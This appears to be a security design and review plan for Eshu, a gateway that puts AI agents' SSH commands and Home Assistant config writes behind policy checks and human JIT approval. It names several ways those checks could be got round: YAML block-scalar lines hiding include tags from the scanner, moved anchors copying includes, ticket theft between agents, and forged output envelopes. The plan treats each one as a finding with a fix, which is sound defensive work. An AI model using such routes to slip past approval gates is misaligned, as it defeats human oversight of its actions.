### Follow-up from the first real use (`fix/ha-config-includes`)

Three findings from the operator's own HA, reached through Hermes.

* **Includes already in the file (Security's stricter answer).** An include
  outside the normal `packages/` rule is grandfathered only when its whole
  line, including indentation and its own key, is byte-identical to a line
  under the same full parent path in the content read under `expect_hash` for
  that same file. The parent path is the exact ancestor key/list-item lines,
  so renaming a parent or moving the line to another parent makes it new and
  refused. Occurrences are counted, so the line cannot be duplicated.
  Absolute, dot-segment, `secrets.yaml` and `!env_var` refusals still apply.
  A file with a grandfathered include may not add or move an anchor, alias or
  `<<:` merge key, and an include line carrying an anchor is refused. The
  grandfathered includes outside `packages/` are named on the approval card
  and in the write's audit row. One shared line scanner covers list-shaped
  files. If the current content cannot be read, the write is refused.
* `ha_config_list` returns the pinned `host_fingerprint` on the same call
  that establishes the pin (and on later calls too).
* `ha_config_read` of `secrets.yaml` reports the real file's size, returns
  `sha256: null` (the keys-only view is not the file), and labels the view
  `masked: true`. The call row's keys-only digest is called
  `masked_sha256`.

### Security: includes follow-up review (0a06f72)

Read as code text only; nothing was run.

**Approved once CB10 is fixed. CB11 and the parent path are should-fixes
and can come in the same commit.**

**What holds.**

* The base is the content `write_config` reads and hash-checks against
  `expect_hash`, before the preflight. A failed read refuses the write.
* A new file has an empty base.
* The match key is `(top-level key, comment-stripped line)`, counted with
  a `Counter`, so a line cannot be duplicated.
* `_check_target(scope=False)` relaxes only the `packages/` rule. Absolute,
  dot-segment and `secrets.yaml` targets still raise first.
* The approval card and the audit row both name the grandfathered
  targets.
* The pin fingerprint in `ha_config_list` and the `secrets.yaml` read
  metadata (`sha256: null`, the real size, `masked_sha256` in the call
  row) are fine.

**CB10 (must). The block-scalar skip ends on the wrong indentation.**

This is in `scan()` and is copied into `_include_occurrences` and
`_anchor_tokens`.

* All three walkers treat any column-0 line whose value starts with `|`
  or `>` as a block-scalar opener. They then skip every deeper line.
* That is right for a top-level `key: |`.
* It is wrong when the column-0 line is a sequence entry (`- key: |`).
  YAML measures that scalar's content from the entry's key, not from
  column 0. Lines that the walkers skip can be ordinary keys of the same
  entry.
* Any tag on those lines is never checked: include targets, `!env_var`
  and `secrets.yaml`.
* `automations.yaml` and `scenes.yaml` have a top-level sequence and are
  writable.
* This is older than this branch. I missed it when I reviewed F11.

Fix:

* Only open a block scalar for a column-0 line that is a plain mapping
  key, not one starting with `-` or `?`. Otherwise scan the following
  lines as normal. That only makes the check stricter.
* Better still, have one walker shared by `scan()`, `_include_occurrences`
  and `_anchor_tokens`, so their skips cannot drift apart.
* Add a regression test for a top-level sequence file. Keep its fixture
  out of this public plan.

**CB11 (should). Lines carrying anchors may not move.**

`_anchor_tokens` compares counts per token, so moving an existing `&name`
to another line keeps the count and passes.

* In a file that already holds an anchor and an alias, the anchor can be
  moved onto the parent of a grandfathered include. The existing alias
  then copies that include to wherever the alias sits.
* Fix: in a file with a grandfathered include, give anchor, alias and
  `<<:` lines the same treatment as include lines. Each must be
  byte-identical to a line under the same key in the base, counted.
* This is my condition 2 applied to lines, not to token counts.

**Answer: use the full parent path.**

Match on `(parent path, line)`, where the parent path is the chain of
ancestor key lines from the top-level key down.

* `(top-level key, line)` lets a line nested two or more levels deep move
  between parents at the same indentation.
* That changes what HA does with the include, for example from one
  integration's sub-block to another, inside the same top-level key.
* The walker already tracks indentation, so keeping a stack of
  `(indent, key line)` is cheap.
* Key the path on the exact comment-stripped ancestor lines, so a renamed
  parent counts as a move.
* Treat a sequence entry (`- `) as a path element, so an include cannot
  move between list items.
* Nested block scalars that are scanned as ordinary lines stay as they
  are, because that only makes the check stricter.

## Chunk F12 — SSH through Eshu over MCP (`ssh_exec`) · slug `ssh-exec` · dashboard (+ small gateway change)

> **Design first** (push a design note only, wait for approval). Needs the
> **security reviewer's** sign-off (§ 2.6a): it gives the dashboard a key that reaches every gateway.

### Why

Today every agent that uses SSH logs in as `eshu-gateway` with **one shared key
pair**. Eshu cannot tell agents apart on SSH, cannot give them different SSH
rules, and cannot revoke one without rotating the key everywhere. MCP already has
per-agent tokens and policies. Routing SSH through MCP gives one identity per
agent for both surfaces, and lets MCP-only clients (LM Studio, F17) use gateways
without an SSH client or key.

### Design (to be confirmed in the design note)

* **MCP tool** `ssh_exec(host, command, session_id?, timeout?)`, available to agents per policy.
  * `host` is a gateway IP or hostname known to Eshu (no arbitrary hosts).
  * The agent's own policy applies first (new SSH rules in `agent_policies`,
    e.g. `ssh_hosts_allow`, `ssh_mode: read_only | approval | normal`). A
    `read_only` agent's non-read command (per `core/read_policy.is_read_ssh`, § 2.6a)
    is sent to JIT, never auto-run.
* **Delivery:** the dashboard connects to the gateway as `eshu-gateway` with a
  **dashboard-only key**, using the dashboard-side SSH runner (system `ssh` via
  `subprocess`, `BatchMode`, pinned host keys, private 0700 key dir, timeouts). F11 reuses this runner.
  * The installer adds the dashboard key to `authorized_keys` with the same forced
    command **and** `from="<dashboard IP>"`.
  * The command carries signed prefix metadata `ESHU_AGENT=<id>` +
    `ESHU_AGENT_SIG` (HMAC like `ESHU_SESSION_SIG`, covering agent id, session id
    and a timestamp). The gateway validates it with the same charset rules as the
    other prefixes and passes `agent` to `/api/request` and `/api/log`. Requests
    gain an `agent` column, so history, stats and overrides can be per agent.
  * Every gateway check still runs (freeze, blocklists, allowlists, Zero-Trust, JIT).
    The policy is enforced twice: on the dashboard (agent policy) and on the gateway.
* **Approvals:** an MCP call cannot hang for minutes. If the gateway answers
  "JIT request #N sent", `ssh_exec` returns `{status: "pending", request_id: N}`
  straight away and the agent polls `check_request(N)`. Once approved, the
  agent calls `ssh_exec` again (the ticket is waiting), or a `wait: true`
  option polls for up to 60 s.
* **Output:** stdout/stderr (already sanitized by the gateway) come back in the
  MCP result, capped (default 64 KiB, tail kept) and also stored as an F5 result.
* **Migration:** direct SSH keeps working. A per-gateway setting
  `ssh_mode: direct+mcp | mcp_only` lets the operator retire the shared agent key
  from a gateway once its agents use `ssh_exec`.

### Tests to add (outline; finalised in the design note)

* Agent policy refusals and `read_only` mode; unknown host refused.
* Prefix signing and validation (gateway sandbox); a forged or unsigned
  `ESHU_AGENT` is refused; `from=` restriction present in generated `authorized_keys`.
* Pending → `check_request` → re-run flow; output cap; timeout.
* Requests and audit rows carry the agent; freeze blocks `ssh_exec`.

### Implementer notes

**Status: design note only — no code on this branch.** Wait for the reviewer
to mark it approved, and for the security reviewer's sign-off (§ 2.6a): this
chunk gives the dashboard a key that reaches every gateway.

#### 1. The shape of the change

```
agent ──MCP──▶ dashboard.ssh_exec(host, command)
                 │  1. agent policy (hosts, ssh_mode, rate limit)
                 │  2. resolve host → gateway row (IP/hostname only)
                 │  3. ssh -i $ESHU_SSH_KEY_DIR/dashboard_ed25519
                 │        eshu-gateway@<host>
                 │        "ESHU_AGENT=… ESHU_AGENT_SIG=… ESHU_TS=… ESHU_NONCE=…
                 │         ESHU_MCP=1 [ESHU_FORCE_JIT=1] <command>"
                 ▼
            gateway forced command (unchanged entry point)
                 │  validate the prefix (command-bound MAC, nonce, gateway id)
                 │  freeze → blocklist → [allowlist / window unless force_jit]
                 │  → Zero-Trust → JIT
                 │  MCP mode: capture ALL command output and print exactly one
                 │  envelope; never sit waiting on a JIT
                 ▼
            dashboard parses the envelope
                 │  ran     → store an F5 result, return output (≤ 64 KiB tail)
                 │  pending → return {status:"pending", request_id}
                 │  refused → return the reason
```

Direct SSH keeps its current text output; **only** a request carrying a valid
`ESHU_MCP=1` gets the envelope, so F5's golden output test stays untouched.

#### 2. The MCP tool

`ssh_exec(host, command, session_id?, timeout?, wait?)`

* `host` must match a registered gateway **IP or hostname** (`get_gateway` /
  a name match, case-insensitive, unique). No arbitrary hosts, no user@, no
  port, no `-o` — the host is looked up, never interpolated into the ssh
  command line as free text.
* `command` ≤ 8 KiB (the read-lane cap is a good fleet-wide default), with a
  non-empty body. **G3:** refused when it has leading or trailing whitespace,
  or any control character other than tab and newline — the gateway trims
  before it hashes, so a command the gateway would change must never be
  signed. **G2:** refused when its first word starts with `ESHU_`, because a
  signed command must not look like a prefix. The accepted bytes then go to
  the gateway **unmodified**.
* `session_id` is optional; when given it must be a session the caller owns
  (same rule as F3's tools). It becomes `ESHU_SESSION_ID` in the signed prefix
  and in the ticket (G2: never `ESHU_SESSION`).
* `timeout` seconds, default 60, capped at 120. `wait: true` polls the
  request row for up to 60 s instead of returning `pending` immediately.
* Result: `{status: "ran"|"pending"|"refused", request_id, exit_code?,
  output? (tail, ≤ 64 KiB), truncated?, reason?}`. Agent text is never
  interpreted.

#### 3. Agent policy

`agent_policies` gains:

* `ssh_hosts_allow` — comma/JSON list of gateway IPs or hostnames; empty means
  **none** (opt-in), `*` means any registered gateway.
* `ssh_mode` — `read_only` | `approval` | `normal` (default `approval`).
  * `read_only`: a command that `core/read_policy.is_read_ssh` does not prove
    read-only is **refused** with `{status: "refused", reason: "read-only
    agent"}`, and no request is created. (Reviewer S1: queueing a write for a
    tired operator is the risk this mode exists to remove.)
  * `approval`: every command is forced to JIT, reads included (the strictest
    useful mode for a new agent).
  * `normal`: the gateway's own policy decides, as for a direct SSH agent.
* Rate limit per agent (requests/minute) shared with the MCP call budget.

The dashboard check is **additive**: the gateway still runs freeze, blocklists,
allowlists, windows, Zero-Trust, JIT and (for a request it auto-runs) the read
lane exactly as today. The only levers the dashboard sends are
`ESHU_FORCE_JIT`, which widens gating, and the signed identity, which
attribution and the ticket use. A bug in the dashboard policy can only make a
command *more* gated, never less.

#### 4. The dashboard SSH key, the key line and the host-key pin

* Key: `$ESHU_SSH_KEY_DIR` (default `/var/lib/eshu/ssh/`) holds
  `dashboard_ed25519`, generated once at startup if missing (ed25519, no
  passphrase — it is a service key), directory `0700` and owned by the service
  user, key `0600`. The runner **refuses to start a call** if either mode or
  owner is wrong (reviewer answer 4). `GET /api/ssh-key` returns the public
  line (no secret: a public key) so an operator can add it by hand, and the
  installer fetches it from `/api/ssh-key` automatically.
* Installer: the dashboard line **reuses today's option set and forced
  command** — `restrict`, `no-port-forwarding`, `no-X11-forwarding`,
  `no-agent-forwarding`, `no-pty`, `from="<dashboard addresses>"`,
  `command="/usr/bin/sudo /usr/local/bin/eshu-gateway.sh --dashboard-key"` —
  and the installer writes **two** lines into `eshu-gateway`'s
  `authorized_keys`: the existing shared-key line and the dashboard line.
  Re-running the installer **replaces each line by its comment**
  (`eshu-dashboard`, and the shared key's existing comment) instead of
  appending, so it never duplicates either one. In `mcp_only` the installer
  omits the shared-key line (and removes it on a re-run), which is how the
  operator retires the shared key. The addresses are the resolved
  `DASHBOARD_URL` host at install time plus the installer's existing
  `ALLOWED_SSH_FROM` override for NAT/proxies (reviewer answer 2). **G6:**
  the `--dashboard-key` argument is set by sshd's forced command, never by
  the caller, and sudoers allows exactly two argv shapes —
  `/usr/local/bin/eshu-gateway.sh` and
  `/usr/local/bin/eshu-gateway.sh --dashboard-key`. The script refuses a call
  that carries the marker without a valid signature, in every `ssh_mode`, so
  a leaked key file that does not also hold the derived key runs nothing.
  **G7:** when `ALLOWED_SSH_FROM` is set to anything other than the
  dashboard's own address the installer prints a warning (every host in that
  list can use the dashboard key).
* Host keys: pinned per gateway in a new `gateways.ssh_host_key` column, which
  stores the gateway's **public key line** (`ssh-ed25519 AAAA…`); its SHA256
  fingerprint is what the UI shows and the audit records (a fingerprint alone
  cannot be turned back into a `known_hosts` entry). The line arrives with the
  gateway's **token-authenticated registration**: the installer reads the
  host's `/etc/ssh/ssh_host_ed25519_key.pub` (falling back to whichever
  `ssh_host_*_key.pub` exists) and sends it in `/api/register`; the heartbeat
  also carries it. The dashboard never scans the host key over the network. A
  gateway with **no pin is refused** (`ssh_host_unpinned`); a call to a pinned
  gateway uses `StrictHostKeyChecking=yes` with a per-gateway known_hosts file
  under the key directory; a **heartbeat with a different key raises an audit
  event and does not re-pin**; re-pinning is an explicit, audited operator
  action (`POST /api/gateways/{ip}/ssh-host-key`, session auth). (Reviewer R6.)
* Runner: `ssh` from `subprocess` with a fixed argv (no shell), connecting to
  the **registered IP** (never a resolved hostname), `-F /dev/null` (no user
  or system `ssh_config`: no `ProxyCommand`, no `Match`),
  `-o UserKnownHostsFile=<per-gateway pin file>`, `-o
  GlobalKnownHostsFile=/dev/null`, `-o StrictHostKeyChecking=yes`,
  `BatchMode=yes`, `ConnectTimeout=10`, `ServerAliveInterval=15`,
  `-o IdentitiesOnly=yes`, no agent forwarding, no `-t`, `LANG=C`. (G7.)
  Total wall clock is enforced by the caller with a timeout and a
  process-group kill. **The timeout only bounds how long the agent waits**:
  killing the local `ssh` does not stop the remote command, so F19
  (unattended limits) is the real bound; until then keep `timeout` ≤ 120 s
  (reviewer S2).

#### 5. Attribution: the signed prefix

```
ESHU_AGENT=<agent> ESHU_AGENT_SIG=<hex> ESHU_TS=<unix> ESHU_NONCE=<hex>
ESHU_MCP=1 [ESHU_FORCE_JIT=1] ESHU_SESSION_ID=<id>
```

* **Derived key (G1):** `K = HMAC-SHA256(gateway_token, "eshu-ssh-agent-v1")`,
  and the MAC is `HMAC-SHA256(K, canonical)`. The label keeps the MAC from
  being the bearer token's signature; rotating the gateway token rotates the
  key (reviewer answer 1, confirmed by the security reviewer). **`K` is
  computed when the token is set or rotated and stored in its own
  `gateways.ssh_key_derived` column** (hex); the signing path reads only that
  column and refuses with `ssh_key_unprovisioned` when it is empty. `K` never
  appears in logs, in an API response or in an error message. Rows that
  predate the column are backfilled once at startup, from the plaintext token
  they still hold — after security Chunk 7 that token is gone, which is
  exactly why the key must be derived now.
* **`canonical` covers every prefix field** — agent, session, timestamp,
  nonce, `mcp`, `force_jit` — **plus `sha256(command)` and the gateway's own
  identity** (its registered IP). A signature is therefore valid for exactly
  one command on exactly one gateway, and the test cases below are the point.
* **Single use:** the nonce is random (16 bytes hex). The gateway keeps a
  seen-nonce set for the validity window (±300 s) and refuses a repeat, so a
  captured prefix cannot be replayed inside the window.
* **G8: no prefix value in logs, ever.** The gateway logs `agent=<name>` and
  `sig=ok|bad|none`, never the signature, the nonce or any `ESHU_*` value;
  the command in the log line is the command after **every** prefix has been
  stripped, `ESHU_SESSION_SIG` included. That delivers the Chunk 7 "stop
  logging the session signature" item as part of F12.
* **G2: the gateway refuses half-signed and ambiguous prefixes**, in every
  `ssh_mode`:
  * if any of `ESHU_AGENT`, `ESHU_AGENT_SIG`, `ESHU_TS`, `ESHU_NONCE`,
    `ESHU_MCP`, `ESHU_FORCE_JIT` is present, then a valid signature is
    required; missing fields, an out-of-window timestamp or a bad MAC is a
    refusal, not something to ignore;
  * a prefix key that appears twice is refused (the parse loop no longer
    keeps the last value);
  * the session gate accepts a valid agent MAC **in place of**
    `ESHU_SESSION_SIG` for the session id it covers, and only then; without a
    valid MAC, strict sessions still require the session signature;
  * a missing signature is refused when the gateway's `ssh_mode` is
    `mcp_only`, and ignored otherwise (direct SSH).
* Charset rules are the existing ones: agent name `^[A-Za-z0-9_.:-]{1,64}$`,
  session id as today, timestamp `[0-9]{1,12}` and nonce `[0-9a-f]{16,64}`,
  `ESHU_MCP`/`ESHU_FORCE_JIT` `0|1`, so a prefix cannot smuggle shell.
* The gateway passes the verified `agent` to `/api/request` and `/api/log`;
  `requests.agent` (nullable, `''` = direct SSH) makes history, statistics and
  overrides per-agent later. Audit rows record the agent on every MCP request.

**A1 — the nonce store.** The gateway is a new process per SSH call, so the
seen set is a file. G4 changes four things about where it lives and how it is
written:

* Path `$ESHU_NONCE_DIR/nonces` (`/var/lib/eshu/nonces`), in a **persistent**
  root-owned `0700` directory (G4d). `/run` is cleared on reboot and a
  container restarts in seconds, well inside the ±300 s window. The
  installer creates the directory; the gateway creates it if missing and
  **refuses the call if it cannot**. The store itself is `0600`.
* One line per accepted nonce: `<unix ts> <nonce hex>`.
* The write path takes an exclusive `flock` on a **separate lock file**
  (`nonces.lock`), prunes to the ±300 s window, refuses a replay, enforces the
  bound, **appends to a temp file and renames it into place** (G4b). An
  `mv` either replaces the store or leaves it untouched, so a failed write
  cannot leave an empty store that accepts every replay.
* **Order (G4c):** charset → timestamp window → MAC → nonce, and the nonce
  is written only after the MAC passes, so unsigned garbage from a shared-key
  caller cannot fill the store and lock out signed calls.
* Size bound: more than **4096** entries *after* pruning refuses new signed
  calls (`nonce-store-full`) instead of evicting unexpired nonces. A full
  store is an operator problem, not a reason to trust a replay.
* Any lock/read/write failure refuses the call (`nonce-store-error`), so a
  broken store fails closed.
* N1 stays: the replay check matches the nonce **on its own** (`$2 == n`), so
  a repeat is refused whatever timestamp it carries.

```bash
# G4: nonce store. Persistent dir, separate lock file, temp + rename.
ESHU_NONCE_DIR="${ESHU_NONCE_DIR:-/var/lib/eshu}"
ESHU_NONCE_FILE="$ESHU_NONCE_DIR/nonces"

nonce_store_ready() {
  if [ ! -d "$ESHU_NONCE_DIR" ]; then
    install -d -m 700 -o root -g root "$ESHU_NONCE_DIR" 2>/dev/null || return 1
  fi
  [ ! -L "$ESHU_NONCE_DIR" ] || return 1
  [ "$(stat -c '%a' "$ESHU_NONCE_DIR")" = "700" ] || return 1
  [ "$(stat -c '%u' "$ESHU_NONCE_DIR")" = "0" ] || return 1
  return 0
}

# Returns 0 accepted, 2 replay, 3 full, 1 store error.
consume_nonce() {            # $1 = nonce hex, $2 = ts
  local nonce="$1" ts="$2" now lo tmp rc=0
  nonce_store_ready || return 1
  now=$(date +%s)
  lo=$((now - 300))
  tmp=$(mktemp -p "$ESHU_NONCE_DIR" nonces.XXXXXX) || return 1
  exec 9>>"$ESHU_NONCE_DIR/nonces.lock" || { rm -f "$tmp"; return 1; }
  flock -w 2 9 || { rm -f "$tmp"; exec 9>&-; return 1; }
  [ -f "$ESHU_NONCE_FILE" ] || : > "$ESHU_NONCE_FILE" || rc=1
  if [ "$rc" = 0 ]; then
    awk -v lo="$lo" '$1 >= lo' "$ESHU_NONCE_FILE" > "$tmp" || rc=1
  fi
  # N1: match the nonce on its own, so a repeat is refused whatever ts it
  # carries (the MAC binds ts, but the store must not depend on that).
  if [ "$rc" = 0 ] && awk -v n="$nonce" '$2 == n { f = 1 } END { exit !f }' "$tmp"; then rc=2; fi
  if [ "$rc" = 0 ] && [ "$(wc -l < "$tmp")" -ge 4096 ]; then rc=3; fi
  if [ "$rc" = 0 ]; then printf '%s %s\n' "$ts" "$nonce" >> "$tmp" || rc=1; fi
  # G4b: rename, never truncate the live store.
  if [ "$rc" = 0 ]; then mv -f "$tmp" "$ESHU_NONCE_FILE" 2>/dev/null || rc=1; fi
  rm -f "$tmp"
  exec 9>&-
  return "$rc"
}
```

Tests (gateway sandbox): two concurrent calls with the same nonce, exactly
one passes; a stale entry is pruned and does not block a new nonce; a store
at the bound refuses; an unwritable/locked-out store refuses; **G4b:** a
write that fails after the temp file is created leaves the previous store
intact; **G4c:** a bad MAC adds no entry; **G4d:** a replay after the store's
directory is recreated is still refused (and the store survives a restart,
i.e. it is not under `/run`).

**A2 — canonical form and HMAC tooling.** The MACed string is fixed, one
field per line, version first, and every field is validated against a charset
that cannot contain `newline`:

```
v1
<agent>            [A-Za-z0-9_.:-]{1,64}
<session>          [A-Za-z0-9_.:-]{0,64}
<mcp>              0 | 1
<force_jit>        0 | 1
<ts>               [0-9]{1,12}
<nonce>            [0-9a-f]{16,64}
<gateway>          the gateway's registered IP  [A-Za-z0-9_.:-]{1,64}
<sha256(command)>  64 lowercase hex
```

`K = HMAC-SHA256(gateway_token, "eshu-ssh-agent-v1")`,
`ESHU_AGENT_SIG = HMAC-SHA256(K, canonical)` (64 lowercase hex).

The gateway already starts `python3` for `ESHU_SESSION_SIG`, so the new check
reuses that shape — but the **key never goes on argv**: the helper reads
`/etc/eshu-token` itself, the canonical string arrives on **stdin**, and only
the signature is an argument.

```bash
canonical=$(printf 'v1\n%s\n%s\n%s\n%s\n%s\n%s\n%s\n%s' \
  "$ESHU_AGENT" "${ESHU_SESSION_ID:-}" "$ESHU_MCP" "${ESHU_FORCE_JIT:-0}" \
  "$ESHU_TS" "$ESHU_NONCE" "$GATEWAY_IP" "$(printf '%s' "$cmd" | sha256sum | cut -d' ' -f1)")
if printf '%s' "$canonical" | python3 - "$ESHU_AGENT_SIG" <<'PY'
import hmac, hashlib, sys
sig = sys.argv[1].strip()
token = open('/etc/eshu-token', 'rb').read().strip()
key = hmac.new(token, b'eshu-ssh-agent-v1', hashlib.sha256).digest()
want = hmac.new(key, sys.stdin.buffer.read(), hashlib.sha256).hexdigest()
sys.exit(0 if hmac.compare_digest(sig, want) else 1)
PY
then sig_state=ok; else sig_state=bad; fi
```

**Shared test vector** (dashboard and gateway tests use the same one): token
`eshu-test-token`, agent `agent-a`, session `sess-1`, mcp `1`, force_jit `0`,
ts `1700000000`, nonce `0123456789abcdef`, gateway `192.0.2.10`, command
`uptime` (`sha256 = dd291cd6294bafef2a7e9c378eb320e87198d6dae214272addb569775750c802`):

```
v1
agent-a
sess-1
1
0
1700000000
0123456789abcdef
192.0.2.10
dd291cd6294bafef2a7e9c378eb320e87198d6dae214272addb569775750c802
```

→ `ESHU_AGENT_SIG = 8e16581e343844cc2d75453461d3464b4c36cd22ae046573093fa63f93db0b04`
(derived key hex `04bfe393d32b73020113f6cefcec7ad1825272cfa3b48547e0648c5d2fa041d5`).
The existing `ESHU_SESSION_SIG` helper still passes its key on argv; moving it
to the same file-read shape is a small security Chunk 7 cleanup, not part of
this design.

#### 6. `ESHU_FORCE_JIT`, end to end

The auto-run decisions are **not all on the gateway**: the allowlist and the
window run there, but the F3 plan, session override, F4 read lane and host
override run on the dashboard in `receive_request` (§ 2.6). Force-JIT has to
cover both, or an `approval` agent's `uptime` would still be auto-approved by
an active host override or the read lane:

* **Gateway:** when `force_jit` is set and the signature is valid, the gateway
  skips the allowlist and window auto-run stages and sends
  `force_jit: true` (and the verified `agent`) to `/api/request`. Freeze, the
  encoded-payload block, blocklists and Zero-Trust still win.
* **Dashboard (`receive_request`):** when the request is force-jit, every
  auto-approve path is skipped — F3 plan, session override, F4 read lane and
  host override. It also **re-derives the mode from the agent's own policy**
  (so the dashboard does not trust the prefix alone) and honours the stricter
  of the two. The § 2.6 order is otherwise unchanged; freeze, the
  encoded-payload block, blocklists and Zero-Trust still win.
* Tests: for each auto path (allowlist, window, plan, session override, read
  lane, host override), a `force_jit` request stays pending.

#### 7. Approvals

An MCP call cannot hang: in MCP mode the gateway creates the JIT row and
returns `{status:"pending", request_id}` immediately instead of polling. The
agent then:

* polls `check_request(request_id)` (already exists) and calls `ssh_exec`
  again once it is approved — the gateway's approved-ticket path runs the
  approved bytes without creating a second request; or
* calls `ssh_exec(..., wait: true)`, where the dashboard polls its own
  `requests` row for up to 60 s and then performs the run. When the cap is
  reached it returns `pending` with the `request_id`, never an error. The poll
  is read-only; approvals still happen on the dashboard UI.

**Tickets are bound to the agent and the session.** The approved ticket line
carries `agent` and `session`, and `claim_lockbox_ticket` matches on the
command bytes **and** those fields. An unsigned request (direct SSH) can claim
only a ticket with no agent. Without this, any shared-key caller in
`direct+mcp` could take agent A's approved ticket within the 90 s TTL, run it
under its own identity and read the output. Tests: agent B cannot claim agent
A's ticket; an unsigned caller cannot claim it; agent A claims it exactly once.

**A4 — ticket format and compatibility (G5).** The approved ticket line becomes
**`v2|<ts>|<agent>|<session>|<command>`**, with the command **last** so a `|`
inside it survives. The tag is the first thing on the line, so the format is
detected by the tag alone and never by counting `|`: an old `ts|cmd` line whose
command happens to look like `agent|session|…` can never be read as a ticket
for a shorter command. The dashboard builds the line from the request row it
has just approved (`/api/poll` and `/api/ticket`; the poller forwards the
string verbatim); `agent` and `session` are charset-checked like the rest, and
`agent` is empty for direct SSH. Compatibility is explicit, in both
directions:

* a **new gateway** treats a line whose first field is not `v2` as old:
  everything after the first `|` is the command, and the ticket is
  agent-less (claimable only by an unsigned request);
* a signed MCP request (agent non-empty) may only claim a `v2` ticket whose
  agent and session fields equal its own, so it can never claim an old
  agent-less line — the re-run after approval returns "no ticket for this
  agent" instead of taking another agent's approval;
* an unsigned request may claim an agent-less line (old or `v2`). It may
  never claim a ticket with an agent;
* the gateway's pruner and the poller's pruner both read the timestamp from
  `$2` on a `v2` line and from `$1` on an old one. An old poller that only
  knows `$1` would delete every `v2` line as stale, so **the poller and the
  gateway are versioned together by the one installer**, and the dashboard
  refuses `ssh_exec` to a gateway whose registration does not report
  `ssh_ticket_format=v2` (`ssh_ticket_format`), the same fail-closed rule as
  the agent-format check in §9;
* once the fleet runs the new poller, `direct+mcp` gateways can keep serving
  direct SSH with agent-less tickets and MCP with bound ones side by side.

Tests, both directions: old line + new gateway (signed request refused,
unsigned accepted); `v2` line + old poller (the dashboard's capability check
refuses before signing); a `v2` line whose command looks like
`agent|session|…` is not re-parsed; an old line whose command contains `|`
keeps the whole command; `v2` line + new gateway (agent A claims exactly
once; agent B and an unsigned caller cannot).

#### 8. Output and the envelope

* **The envelope is the only stdout in MCP mode.** The gateway captures all
  command output (the F5 capture path, tail-capped at 64 KiB), base64-encodes
  it **inside** the envelope, and prints exactly one line:
  `ESHU-MCP-ENVELOPE {"status": …, "request_id": …, "exit_code": …,
  "output_b64": …, "truncated": …}`. The marker is fixed and the dashboard
  accepts exactly one envelope; any other stdout, a second envelope, or a
  missing/garbled one is returned as `refused` with reason `bad-envelope`.
  A command that prints an envelope-shaped line therefore cannot forge a
  status or an exit code — its text comes back inside `output` (reviewer R5).
* The gateway still posts the F5 `request_results` row against `request_id`
  (the existing `post_exec_result` path, unchanged); the dashboard runs
  `secret_scrub` (second pass), stores a row itself only when the gateway's
  post did not land (`first result wins`), and returns at most 64 KiB to the
  MCP client.
* The envelope also carries `messages`: every human-facing line the gateway
  would have printed on stdout (the `[LOCKED]` reasons, `[TIMEOUT]`,
  `[DENIED]`, …) is JSON-escaped into it through `say()`, so an MCP caller
  sees the same explanation an SSH caller sees, and the dashboard turns the
  list into `reason` on `refused`/`pending`.
* Stderr is merged into the same stream (as the gateway does today), so the
  agent sees what a direct SSH agent would.

**A3 — one `say()` helper, and the output cap.** The gateway prints on many
paths, not just the command: the `[LOCKED]` messages (freeze, blocklist, hard
block, session required/invalid, bad prefix, rate limit, JIT unreachable,
encoded payload), the JIT status lines (`#N sent`, `[DENIED]`, `[TIMEOUT]`,
`[EXPIRED]`, `[OK] Approved! Executing…`), the `[ESHU exit=N]` sentinel, and
the command's own stream through `sanitize`. Every human-facing writer is
routed through one helper:

```bash
# A3: the only human-facing writer. Direct mode prints; MCP mode appends the
# line to the envelope's `messages` (JSON-escaped) and prints nothing.
say() {
  if [ "$ESHU_MCP" = "1" ]; then
    ESHU_MSG_JSON="${ESHU_MSG_JSON:+$ESHU_MSG_JSON,}\"$(json_escape "$*")\""
  else
    printf '%s\n' "$*"
  fi
}
```

`[ESHU exit=N]` becomes `say`-free: in MCP mode it is `exit_code` in the
envelope, not a stdout line. The command's own output never reaches stdout in
MCP mode:

```bash
# A3: MCP mode captures the stream (F5's tee already fans it out) and keeps
# its tail; direct mode is untouched.
ESHU_MCP_CAP=$(mktemp -p "$ESHU_RUN_DIR" eshu-mcp.XXXXXX) || exit 1
{ tail -c 65537 > "$ESHU_MCP_CAP" || true; cat > /dev/null; } < "$ESHU_OUT_FIFO" &
...
mcp_size=$(wc -c < "$ESHU_MCP_CAP")
mcp_trunc=false; [ "$mcp_size" -gt 65536 ] && mcp_trunc=true
mcp_b64=$(tail -c 65536 "$ESHU_MCP_CAP" | base64 -w0)
# N2: request_id is the integer id, never the zero-padded DISPLAY_ID (which is
# not a valid JSON number).
printf 'ESHU-MCP-ENVELOPE {"status":"%s","request_id":%s,"exit_code":%s,"output_b64":"%s","truncated":%s,"messages":[%s]}\n' \
  "$status" "$REQUEST_ID_INT" "$rc" "$mcp_b64" "$mcp_trunc" "$ESHU_MSG_JSON"
```

**The cap is 64 KiB for the MCP envelope** (the design's number). F5's
16 KiB stays what it is for `request_results`: the stored execution result is
a different artefact from the bytes handed to the MCP client, and 64 KiB is
the MCP ceiling the note promised. The dashboard re-applies its own 64 KiB
cap after decoding, so a gateway that sends more is still trimmed.

Test: in MCP mode, stdout is **exactly one** `ESHU-MCP-ENVELOPE` line on
every path — ran, pending, blocked, frozen, Zero-Trust, encoded payload and a
bad signature — with no banner or status line outside it, and any other
stdout makes the dashboard return `refused`/`bad-envelope`. The envelope's
`request_id` is an integer (`REQUEST_ID_INT`), never the zero-padded
`DISPLAY_ID` (N2).

#### 9. Migration and launch

* Per-gateway `ssh_mode` setting: `direct+mcp` (default) or `mcp_only`.
  `mcp_only` makes the gateway require a valid `ESHU_AGENT_SIG` and refuse
  unsigned requests, so the operator can retire the shared agent key one
  gateway at a time. Additive: nothing changes until the operator flips it.
* **Fail closed on the format.** `ssh_exec` refuses a gateway that has not
  reported the capability, one whose reported MAC format predates this note
  (`ssh_agent_v1`), one that has not reported `ssh_ticket_format=v2` (G5:
  the poller that prunes the lockbox must understand the tag), and one with
  no pinned host key. All four refusals name the reason (`ssh_not_ready`,
  `ssh_agent_format`, `ssh_ticket_format`, `ssh_host_unpinned`) so the
  operator knows what to update, and none of them signs anything.
* The capabilities and the host key arrive with the **same installer** that
  writes the gateway and poller scripts, in the installer's existing
  `/api/register` call, so the reported pair is always the pair that is
  installed. The dashboard stores them on the gateway row and shows the
  reason in the refusal instead of guessing.

#### 10. Tests to add (final)

* **Policy**: unknown host refused (not registered, or not in
  `ssh_hosts_allow`); `-o`/`user@`/port in `host` refused; a `read_only`
  agent's write is refused and creates no request; an `approval` agent's
  `uptime` is forced to JIT; rate limit. **G3:** a command with leading or
  trailing whitespace, a `\r`, a NUL-like control byte (other than tab and
  newline) is refused before signing; **G2:** a command whose first word
  starts with `ESHU_` is refused.
* **Signing**: a valid prefix with a different command is refused; the same
